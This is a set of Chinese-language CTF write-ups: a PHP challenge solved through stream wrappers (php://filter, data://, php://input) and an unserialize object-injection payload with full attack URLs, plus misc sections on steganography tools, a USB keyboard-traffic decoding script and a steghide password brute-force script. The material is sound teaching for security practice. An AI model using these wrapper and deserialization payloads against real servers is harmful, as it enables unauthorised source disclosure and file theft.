







# php伪协议

本题主要考察PHP伪协议的利用，先熟悉一下php常见伪协议

### php常见伪协议

官方文档：https://www.php.net/manual/zh/wrappers.php。

官网文档说的是php伪协议就是内置的URL风格的封装协议。除了内置的封装协议，也可以自己注册封装自定义协议。以下是常见的几种内置封装协议。

- **file://**

  作用：访问本地文件系统

  使用方法：file://文件的绝对路径和文件名

  eg：http://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt

- **php://filter**

  作用：读取文件源码，并将base64编码之后的源码输出

  eg: http://127.0.0.1/1/php.php?file=php://filter/read=convert.base64-encode/resource=a.php

- **php://input**

  条件: allow_url_include　需要设置为　On

  作用：以post形式执行php代码。

  使用：

  ​	http://127.0.0.1/1/php.php?file=php://input

  ​	post数据：	<?php phpinfo();?>

- **data://**

  作用：发送数据到服务端

  条件：这里allow_url_include 和 allow_url_fopen 都需要设置为 On, PHP>=5.2.0，一般用base64编码传输。

  eg:http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

- **zip://**

  payload:

  http://127.0.0.1/lab13.php?file=zip://C:\Users\yale\Desktop\test.zip#zip.txt

  事实上zip后缀改为jpg仍能正常解析

  http://127.0.0.1/lab13.php?file=zip://C:\Users\yale\Desktop\test.jpg%23zip.txt

- **zlib://**

  payload

  http://127.0.0.1/lab13.php?file=compress.zlib://C:\Users\yale\Desktop\zip.jpg

  

  

  

  

### 解题过程

访问题目地址：http://124.71.149.53:8089/  , 发现如下代码

```php
<?php  
$sz_txt = $_GET["sz_txt"];
$sz_file = $_GET["sz_file"];
$password = $_GET["password"];
if(isset($sz_txt)&&(file_get_contents($sz_txt,'r')==="welcome to jxsz")){
    echo "<br><h1>".file_get_contents($sz_txt,'r')."</h1></br>";
    if(preg_match("/flag/",$sz_file)){
        echo "Not now!";
        exit(); 
    }else{
        include($sz_file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

**代码解读**

1. 先从GET请求获取三个参数sz_txt，sz_file，password
2. 然后判断sz_txt的文件里面是否有“welcome to jxsz"，满足条件就打印结果，然后如果匹配到$sz_file中的flag路径就退出，如果不满足就包含\$sz_file，注释中提示\$sz_file可以是useless.php，然后是反序列化\$password，并打印\$password内容。


**构造"welcome to jxsz"**

首先我们需要满足`file_get_contents($sz_txt,'r')==="welcome to jxsz"`，由于我们根本不知道“welcome to jxsz”在哪个文件。这里显然不是让我们去找，而是要让我们自己构造，file_get_contents()是用来将文件内容读入到一个字符串的首选方式，

```php
file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] ) : string
```

$filename不仅仅是是文件路径，也可以是网络路径。

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

于是，可以通过网络传输的形式传输“welcome to jxsz”到服务端来满足条件。

构造方法有两种通过伪协议的方式来构造，一种是php://input，另一种data://。data://需要allow_url_include开启，在源码中`include($sz_file)`也直接包含了，说明all_url_include开启了。

php://input方式：

​	如下所示,以post方式传递“welcome to jxsz“，成功通过了`file_get_contents($sz_txt,'r')==="welcome to jxsz"`的条件。


data://方式：

​	先将“welcome to jxsz“进行base64加密。`d2VsY29tZSB0byBqeHN6`

​	构造url:`http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=&password=`


也成功了

**读取useless.php**

由于不能直接访问/flag/，就先看一下注释的文件useless.php，通过sz_file传递。

前面提到php://filter是用来读取源码的，所以可以通过如下方式查看useless.php的源码。

`sz_file=php://filter/read=convert.base64-encode/resource=useless.php`

完整url：

`http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=php://filter/read=convert.base64-encode/resource=useless.php&password=`


获取的内容如下

```html
<br><h1>welcome to jxsz</h1></br>PD9waHAgIAoKY2xhc3MgRmxhZ3sgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlNvIGNvb2wsY29udGludWUgcGx6Iik7CiAgICAgICAgfSAgCiAgICB9ICAKfSAgCj8+ICAK
```

用base64解密得

```php
<?php  

class Flag{  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("So cool,continue plz");
        }  
    }  
}  
?>  
```

php中把__开头的方法称为魔术方法（Magic methods)。

\_\_toString()魔法函数：当反序列化后的对象被输出的时候（转化为字符串的时候）被调用。

一旦在反序列化的时候出现如下魔术方法的时候就要注意了

> ```
> __construct()当一个对象创建时被调用
> 
> __destruct()当一个对象销毁时被调用
> 
> __toString()当反序列化后的对象被输出的时候(转化为字符串的时候)被调用
> 
> __sleep() 在对象在被序列化之前运行
> 
> __wakeup将在序列化之后立即被调用
> ```

当看到__tostring()的时候就注意是否存在反序列化漏洞，看最初的代码，`echo $password;`的时候就相当字符串输出，如果我们传入的password的值是序列化的的对象，那么就会自动调用\_\_tostring()

```php
  $password = unserialize($password);
   echo $password;
```

构造

在\_\_tostring()中，```file_get_contents($this->file); ```就是输出file的内容。如果我们指定file为flag.php就会打印flag.php的内容。于是我们构造一个对象指定file为flag.php序列化后传入给password。

```php
<?php  
class Flag{  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("So cool,continue plz");
        }  
    }  
}  
  
$password = new Flag();
echo serialize($password);
?>
```

序列化后为https://c.runoob.com/compile/1

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

将反序列化的值传给password。

```
password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

完整的payload如下

```
http://124.71.149.53:8089/?sz_txt=data://text/plain;base64,d2VsY29tZSB0byBqeHN6&sz_file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

这里需要注意的是`sz_file=useless.php`这里必须引入useless.php，不然在反序列化的时候找不到类。通过useless.php的_toString()方法打印出flag.php。


# misc

**misc一般包括以下几个方面**

- 文件编码转换

  给一段base64，二进制，莫斯电码、jsfuck等让你转换

- 文件隐形

  图片隐写，pdf隐形，隐藏文件。

- 文件修复

  破坏了文件结构，比如去掉了图片的文件头，

- 流量取证

  给你一些数据包，让你分析

- 内存取证

  内存取证一般指对计算机及相关智能设备运行时的物理内存中存储的临时数据进行获取与分析，提取flag或者与flag相关重要信息。开源内存分析框架--Volatility

- 社会工程学

​     ............

#### 隐写

ctf中一般将flag隐藏到图片，音频等各类载体中，常常和混淆、编码、密码学等结合。



**文件识别**

- 后缀识别

- 工具识别

  - file命令，通过文件头部信息获取文件类型。一般文件文件头不一样，但有的word跟zip文件头一样。

    

**常见隐写工具**

- 010editor, winhex				16进制编辑器
- strings           提取文件字符串
- binwalk
- foremost
- file
- stegsolve
- steghide       
- PS
- Pillow         python中的一个图像处理模块
- PNGcheck       png结构完整性检测工具。


# USB流量捕获

题目下载下来有两个文件pig2.pcapng、pig.pdf

用wireshark打开pig2.pcapng，发现是协议是USB。



先打开pig.pdf看一看，浏览了一下未发现异常。


用010editor打开，搜一下文本内容，发现有Flags之类的文字，但并没有找到flag，猜测flag在这个文件。



之前都没有做过pdf和usb流量相关题目，于是google走起。随便翻几篇文章看看。




`USB` 协议的数据部分在 `Leftover Capture Data` 域之中，通过tshark可以提取出来。

安装了wireshak就有tshark，使用tshak来分离出`leftover capture data`的命令如下。

```
tshark -r pig2.pcapng -T fields -e usb.capdata > usbdata.txt
```

usb数据的ctf一般就是考键盘流量和鼠标流量的分析。

**键盘数据：**

键盘数据包的数据长度为 `8` 个字节，击键信息集中在第 `3` 个字节，每次 `key stroke` 都会产生一个 `keyboard event usb packet` 。


**鼠标数据：**

鼠标数据包的数据长度为 `4` 个字节，第一个字节代表按键，当取 `0x00` 时，代表没有按键、为 0x01 时，代表按左键，为 `0x02` 时，代表当前按键为右键。第二个字节可以看成是一个 `signed byte` 类型，其最高位为符号位，当这个值为正时，代表鼠标水平右移多少像素，为负时，代表水平左移多少像素。第三个字节与第二字节类似，代表垂直上下移动的偏移。


键盘记录提取脚步

```python
mappings = { 0x04:"A",  0x05:"B",  0x06:"C", 0x07:"D", 0x08:"E", 0x09:"F", 0x0A:"G",  0x0B:"H", 0x0C:"I",  0x0D:"J", 0x0E:"K", 0x0F:"L", 0x10:"M", 0x11:"N",0x12:"O",  0x13:"P", 0x14:"Q", 0x15:"R", 0x16:"S", 0x17:"T", 0x18:"U",0x19:"V", 0x1A:"W", 0x1B:"X", 0x1C:"Y", 0x1D:"Z", 0x1E:"1", 0x1F:"2", 0x20:"3", 0x21:"4", 0x22:"5",  0x23:"6", 0x24:"7", 0x25:"8", 0x26:"9", 0x27:"0", 0x28:"n", 0x2a:"[DEL]",  0X2B:"    ", 0x2C:" ",  0x2D:"-", 0x2E:"=", 0x2F:"[",  0x30:"]",  0x31:"\\", 0x32:"~", 0x33:";",  0x34:"'", 0x36:",",  0x37:"." }
nums = []
keys = open('usbdata.txt')
for line in keys:
    if line[0]!='0' or line[1]!='0' or line[3]!='0' or line[4]!='0' or line[9]!='0' or line[10]!='0' or line[12]!='0' or line[13]!='0' or line[15]!='0' or line[16]!='0' or line[18]!='0' or line[19]!='0' or line[21]!='0' or line[22]!='0':
         continue
    nums.append(int(line[6:8],16))
    # 00:00:xx:....
keys.close()
output = ""
for n in nums:
    if n == 0 :
        continue
    if n in mappings:
        output += mappings[n]
    else:
        output += '[unknown]'
print('output :n' + output)
```

```
python3 UsbKeyboard.py
```

运行结果为：

output :n[DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL]THE ANSWER IS[DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL][DEL]PASSWORD381382770


出现了密码那应该有解密的地方，这时候就想到了pig.pdf。

PDF隐写中，我们最常用，也是最熟知的工具就是wbStego4open,这是可以把文件隐藏到BMP，TXT,HTM和PDF文件中的工具，当然，这里我们只用他来最为以PDF为载体进行隐写的工具。

用wbStego4open打开输入密码解密成功



附上鼠标分析脚步

```python
nums = []
keys = open('./usbdata.txt','r')
posx = 0
posy = 0
for line in keys:
    if len(line) != 12 :
         continue
    x = int(line[3:5],16)
    y = int(line[6:8],16)
    if x > 127 :
        x -= 256
    if y > 127 :
        y -= 256
    posx += x
    posy += y
    btn_flag = int(line[0:2],16)  # 1 for left , 2 for right , 0 for nothing
    if btn_flag == 1 :
        print posx , posy
keys.close()
```


# DestroyJava

1. 下载附件是`mp4`文件，视频内容是关于销毁JAVA的，并没什么线索，`binwalk`分析，发现有图片隐写在`mp4`文件中，使用`foremost`分离


2. 得到一张`jpg`的图片，`steghide info`探测到`jpg`中隐写了文件

   Steghide是一个可以将文件隐藏到图片或音频中的工具

   ```
   steghide info flag.jpg
   ```

   

3. 使用脚本爆破密码，

   ````
   steghide extract -sf flag.jpg -xf output.txt -p password
   ````

   

   ```python
   # -*- coding: utf8 -*-
   #python2
   from subprocess import *
   
   def foo():
       stegoFile='flag.jpg'#这里填图片名称
       extractFile='output.txt'#输出从图片中得到的隐藏内容
       passFile='password.txt'#密码字典
   
       errors=['could not extract','steghide --help','Syntax error']
       cmdFormat='steghide extract -sf "%s" -xf "%s" -p "%s"'
       f=open(passFile,'r')
   
       for line in f.readlines():
           cmd=cmdFormat %(stegoFile,extractFile,line.strip())
           p=Popen(cmd,shell=True,stdout=PIPE,stderr=STDOUT)
           content=unicode(p.stdout.read(),'gbk')
           for err in errors:
               if err in content:
                   break
           else:
               print content,
               print 'the passphrase is %s' %(line.strip())
               f.close()
               return
   
   if __name__ == '__main__':
       foo()
       print 'ok'
       pass
   
   ```

   base85加密，用cyberchef的IPV6解密。

   

   flag{Java_1s_the_bEst_lAnguage_in_The_world}


